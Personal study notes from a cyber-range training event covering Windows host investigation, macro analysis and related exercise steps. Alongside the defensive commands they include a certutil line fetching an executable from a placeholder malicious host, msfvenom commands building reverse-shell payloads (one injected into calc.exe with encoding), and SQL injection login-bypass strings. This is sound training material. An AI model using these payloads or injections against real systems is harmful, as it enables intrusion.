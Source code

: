 <!--
Title: ASD Live Fire Exchange Programme (GitHub Markdown Version)
Author: Simon .I
Version: 2025.03.30
Description: GitHub-compatible Markdown (GHM) version using supported HTML like <details> and <table>.
-->

<!-- ASD Programme Title -->
<h1 align="center"><strong style="font-size: 4.5rem; letter-spacing: 4px; color: navy;">Australian Signals Directorate - Live Fire Exchange Program</strong></h1>

<p><strong>These are my personal notes from the <em>ASD Live Fire Cyberbitrange</em> event. This document is not provided by or affiliated with the <em>Australian Signals Directorate (ASD)</em> or <em>CyberbitRange</em>.</strong></p>

---

<details>

<summary><strong>🌐 LFE 1 Bangalore - Host-Based Threat Investigation</strong></summary>

### 🔎 Scenario: Command and Control (C2) Detection

This exercise focuses on analysing a compromised Windows host. The attacker leverages built-in Windows binaries like `certutil` and `powershell -enc` for malicious activities. The goal is to detect the infection, investigate indicators, and remove persistence and network access.

---

### 🧱 Step 1: Detect Suspicious Process Execution

Start with identifying potentially malicious running processes:

```powershell
tasklist | findstr /i "powershell cmd python wscript cscript mshta wmic rundll32 regsvr32 schtasks bitsadmin"
```

You can also use the Task Manager GUI:

```powershell
taskmgr
```

Kill any suspicious or known malicious process:

```powershell
taskkill /F /PID <PID>
```

Open Event Viewer to examine process creation logs:

```powershell
eventvwr
```

> Navigate to: Windows Logs > Security  
> Look for Event ID `4688` (Process Creation)

🧠 **Pay attention to:**

- **New Process Name**: The binary executed  
- **Creator Process Name**: What launched it  
- **Process Command Line**: (if command line logging is enabled)

Enable command line auditing via Group Policy:

`Computer Configuration > Administrative Templates > System > Audit Process Creation > Include command line in process creation events`

---

### 📥 Step 2: Investigate Certutil Abuse

Attackers often abuse `certutil` to download payloads from the internet:

```powershell
certutil -urlcache -split -f http://malicious.domain/agent.exe agent.exe
```

Check logs (Event Viewer or Sysmon if enabled) for this command line string.

---

### 🧪 Step 3: Decode Obfuscated PowerShell

If you encounter a base64 encoded PowerShell command:

```powershell
powershell.exe -enc <base64string>
```

Decode it using this:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<base64string>"))
```

---

### 🗓 Step 4: Investigate Scheduled Tasks

List scheduled tasks and find non-default or suspicious ones:

```powershell
schtasks /query /fo LIST /v
```

Or with PowerShell:

```powershell
Get-ScheduledTask | Where-Object {
  $_.TaskPath -notmatch "^\\Microsoft\\Windows" -and 
  ($_.Actions | ForEach-Object { $_.Execute }) -match "cmd|powershell|python|wscript|cscript|.bat|.vbs|.js|.py|mshta|rundll32|schtasks|bitsadmin"
}
```

Remove malicious scheduled task:

```powershell
Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

---

### 🧼 Step 5: Registry Persistence

Check `Run` keys used to maintain persistence:

```powershell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

Also check:

```powershell
regedit
```

---

### 🌐 Step 6: Inspect Network Connections

View active network connections and the processes behind them:

```powershell
netstat -bano
```

> Match suspicious PIDs with output from `tasklist`

---

### 📁 Step 7: Investigate Dropped Files

Search for document files and other suspicious files across users' folders:

```powershell
Get-ChildItem -Path C:\Users -Include *.docx,*.xlsx,*.pdf -File -Recurse -ErrorAction SilentlyContinue
```

---

</details>

---

<details>
<summary><strong>🌋 LFE 2 Jakarta - Multi-Stage Malware & Analysis</strong></summary>

### 🔎 Scenario: Multi-Stage Malware with Data Exfiltration

- Analyse a malicious Office macro embedded in a phishing document
- Trace execution of an obfuscated VB script delivering a reverse shell payload
- Investigate payload generated using `msfvenom` to understand its capabilities
- Identify encrypted files and inspect use of OpenSSL for local encryption
- Monitor network activity and identify exfiltration using Wireshark
- Discover and exploit an SQL injection vulnerability for unauthorised data access

### 🔎 Macro Analysis with `oletools`

`oletools` is a Python-based toolset for analysing Microsoft OLE2 files (e.g. Office documents). It helps detect malicious macros, extract metadata, and uncover indicators of compromise.

#### 🔧 Common Tools & Recursive Scans:
```powershell
# Recursively analyse all documents in a folder
olevba -r C:\Path\To\Folder\*

# Optional flags:
olevba -r --decode C:\Path\To\Folder\*
olevba -r --json C:\Path\To\Folder\*
```

#### 🔁 mraptor (manual recursion):
```powershell
Get-ChildItem -Recurse -Filter *.doc* | ForEach-Object { mraptor $_.FullName }
```

#### 📄 Other Tools:
```powershell
olemeta suspicious.doc
olemeta --json suspicious.doc

oleid suspicious.doc
oleid --json suspicious.doc

oleobj -e -d output suspicious.doc
rtfobj -d output suspicious.rtf
```

#### 🔍 Other Tool Explanations:
- `olemeta`: Extracts file metadata (author, creation date, etc.)
- `oleid`: Flags suspicious indicators (e.g. presence of macros or OLE objects)
- `oleobj`: Extracts embedded objects (e.g. a hidden .exe inside a Word file)
- `rtfobj`: Same as `oleobj`, but for RTF documents

### 💣 Payload Crafting with `msfvenom`
```powershell
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <output> [-e <encoder>] [-i <iterations>] [-x <template.exe>]
```

#### 🧾 Flag Breakdown:
- `-p`: Payload type
- `LHOST`: Attacker IP
- `LPORT`: Listener port
- `-f`: Output format (e.g. exe, elf, psh)
- `-o`: Output file
- `-e`: Encoder
- `-i`: Iterations
- `-x`: Inject into another executable

#### 🧰 Examples:
```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 -f exe -o payload.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 -f exe -x C:\Windows\System32\calc.exe -o mal.exe -e x86/shikata_ga_nai -i 3
```

### 🔐 File Encryption with OpenSSL
```powershell
openssl.exe enc -aes-256-cbc -base64 -in "C:\Users\cyberuser\Desktop\Files\Pass.txt" -out "C:\Users\cyberuser\Desktop\Pass.enc" -K 000001234567890ABCDEFABCDEF -iv 0
```

### 📡 Wireshark Filters
```wireshark
frame.number == 1437
frame.number >= 1434 and frame.number <= 1440
tcp.analysis.retransmission
frame.number == 1437 and tcp.analysis.retransmission
```

### 🔢 SQL Injection Basics

**SQL injection** was found in a web-based login form hosted on the compromised environment.

#### Sample Inputs:
```text
Username: ' OR 1=1;--
Password: anything

Username: admin' --
Password: anything

Username: ' OR 'a'='a';--
Password: anything

Username: " OR ""="
Password: anything

Username: ' OR 1=1 LIMIT 1;--
Password: doesn't matter

Username: admin')--
Password: test

Username: ' UNION SELECT null, version();--
Password: anything
```

#### Underlying Query Logic:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```

Injecting:
```sql
SELECT * FROM users WHERE username = '' OR 1=1;--' AND password = '';
```

</details>

---
